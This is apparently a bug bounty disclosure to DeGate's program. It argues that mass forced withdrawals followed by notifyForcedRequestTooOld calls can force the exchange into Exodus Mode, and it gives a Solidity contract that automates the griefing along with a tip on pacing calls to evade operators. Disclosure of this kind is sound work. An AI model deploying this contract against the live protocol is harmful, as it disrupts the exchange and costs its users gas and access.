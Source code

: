 
# Exodus Mode Force

Submitted on Mon Dec 04 2023 00:24:17 GMT-0400 (Atlantic Standard Time) by @lordagnew for [Boost | DeGate](https://immunefi.com/bounty/boosteddegatebugbounty/)

Report ID: #26509

Report type: Smart Contract

Report severity: Insight

Target: https://etherscan.io/address/0x9C07A72177c5A05410cA338823e790876E79D73B#code

Impacts:
- Force DeGate into Exodus Mode
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Bug Description
To Force DeGate into Exodus Mode

First, Parse Calldata of all submitBlock transactions in the DeGate smart contract.

Write a script to automate the calling of notifyForcedRequestTooOld for accounts that meet the specific criteria to find available ones to help and make it even easier to force.

Start creating accounts over time to make enough to be able to cause Exodus Mode. (I know it is a lot of accounts to make but not hard at all)

After you force Degate into Exodus Mode you can start Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Impact
This is an extremely bad impact. Would show the project in a terrible light because the entire project would shut down and would cause big problems for people and anyone who is invested in it. Anyone who is a competitor could do this to make there own project look better/safer.
## Risk Breakdown
Difficulty to Exploit: Easy just would take some time but still easy




        
## Proof of concept
First thing you would need to do is make enough accounts with wallets that have a very small amount of money in them because you will get the money back so no lose in revenue at all for this part. Yes, you would need to make a TON of accounts but that is why you would use a program to create these accounts which is something that already exists.
Secondly, when all of these accounts are ready, you Parse Calldata of all submitBlock transactions in the DeGate smart contract and you do this so you can look for other accounts that might be able to help you with this because ANYONE can call this for any account which is a problem.
Next, Write a script to automate the calling of notifyForcedRequestTooOld for accounts that meet the specific criteria to find available ones to help and make it even easier to force. I know the price of .01 eth but I can promise you that if a competitive project sees profit by taking out Degate you do not want that option available.

Here is the code for this
// SPDX-License-Identifier: MIT
pragma solidity >=0.6.12 <0.9.0;

interface IExchangeV3 {
    function forceWithdraw(address from, address token, uint32 accountID) external;
    function notifyForcedRequestTooOld(uint32 accountID, address token) external;
}

contract ExodusModeSimulator {
    IExchangeV3 public exchangeV3;
    address public owner;

    // 
    event ForceWithdrawInitiated(address indexed sender, address indexed token, uint32 indexed accountID);
    event ExodusModeTriggered(uint32 indexed accountID, address indexed token);

    // Mapping to store withdrawal timestamps
    mapping(uint32 => mapping(address => uint)) public withdrawalTimestamps;

    // MAX_AGE_FORCED_REQUEST_UNTIL_WITHDRAW_MODE is set to 15 days in seconds
    uint constant MAX_AGE_FORCED_REQUEST_UNTIL_WITHDRAW_MODE = 15 * 24 * 60 * 60;

    constructor(address _exchangeV3Address) {
        owner = msg.sender;
        exchangeV3 = IExchangeV3(_exchangeV3Address);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "Only the owner can call this function");
        _;
    }

    function simulateForcedWithdrawals(address[] calldata tokens, uint32[] calldata accountIDs) external onlyOwner {
        require(tokens.length == accountIDs.length, "Input arrays must be the same length");
        
        for (uint i = 0; i < tokens.length; i++) {
            exchangeV3.forceWithdraw(msg.sender, tokens[i], accountIDs[i]);
            withdrawalTimestamps[accountIDs[i]][tokens[i]] = block.timestamp;
            emit ForceWithdrawInitiated(msg.sender, tokens[i], accountIDs[i]);
        }
    }

    function simulateMassForcedWithdrawals(address token, uint32 startAccountID, uint32 numberOfAccounts) external onlyOwner {
        for (uint32 i = 0; i < numberOfAccounts; i++) {
            uint32 accountID = startAccountID + i;
            exchangeV3.forceWithdraw(msg.sender, token, accountID);
            withdrawalTimestamps[accountID][token] = block.timestamp;
            emit ForceWithdrawInitiated(msg.sender, token, accountID);
        }
    }

    function triggerExodusMode(uint32 accountID, address token) external onlyOwner {
        uint timestamp = withdrawalTimestamps[accountID][token];
        require(timestamp != 0, "No withdrawal request for this account and token");
        require(block.timestamp >= timestamp + MAX_AGE_FORCED_REQUEST_UNTIL_WITHDRAW_MODE, "Withdrawal request not old enough");

        exchangeV3.notifyForcedRequestTooOld(accountID, token);
        emit ExodusModeTriggered(accountID, token);
    }

}


To help understand this and how it will work this will make it VERY easy to push accounts through and you can push them through a lot at a time or you can slowly push the accounts out so that it is not caught by the operators. Also, this contract puts the 15 days into account. This is a very bad thing and I really do recommend fixing this or at least putting something in the contract so ONLY the owner can make a call for any account and not let that be open to anyone because that would immediately fix it.

Lastly, When Exodus mode is forced every account will be able to have all there money taken out of the contract and this would cause serious Griefing for everyone involved because they would all have to repay the gas fees for putting it back into the contract and a huge loss of respect for the project.
